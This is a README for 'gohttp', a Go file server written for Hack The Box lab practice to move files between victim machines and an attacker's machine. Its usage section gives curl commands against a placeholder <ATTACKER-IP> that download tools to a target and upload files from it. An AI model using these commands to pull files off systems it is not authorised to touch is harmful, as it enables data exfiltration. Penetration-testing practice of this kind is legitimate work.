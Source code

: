 # gohttp
While playing on *hackthebox.com* I was missing the capability to upload files from the victims machines back to my machine with Python SimpleHTTPServer.  
Therefore I wrote **gohttp** which supports both uploading and downloading files just by using the go standard library.

## Installation
### go install
```bash
go install github.com/hebelsan/gohttp
./gohttp
```
### docker
```bash
docker pull ghcr.io/hebelsan/gohttp:latest
docker run --rm -v $(pwd):/mount -p 80:80 ghcr.io/hebelsan/gohttp
```
### manual
```bash
git clone https://github.com/hebelsan/gohttp
go run main.go
```

## Usage
All the files that should be served must be inside the directory where `gohttp` is executed.

###  Download a file from your attack device:
```bash
curl -O http://<ATTACKER-IP>/<FILENAME>
```

###  Upload a file back to your attack device as multipart
```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

###  Multiple file upload supported, just add more -F 'file=@<FILENAME>'
```bash
curl -F 'file=@<FILE1>' -F 'file=@<FILE2>' http://<ATTACKER-IP>/
```

###  Upload using raw body and filename header
```bash
curl -H "filename: test.txt" --data "this is raw data" http://<ATTACKER-IP>/
```

## Configuration

### Files root path
Per default every file is transferred from and to the current working directory.  
To change this behaviour:
```bash
export FILES_ROOT=/tmp
```

### Authentication
If you are scared that somebody else in your network 
either get's access to your files or uploads random
files without your permission set:
```bash
export AUTH=API-KEY
```
This will generate a new api key on startup and after each request.  
The key is printed to the console and has to be passed 
as `X-API-KEY` header:
```bash
curl -H "X-API-KEY: F94CE8F8-2E28-7806-94A4-8DF3FB722814" -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

### Port
Per default port 80 is used. To change it:
```bash
export PORT=4444
```
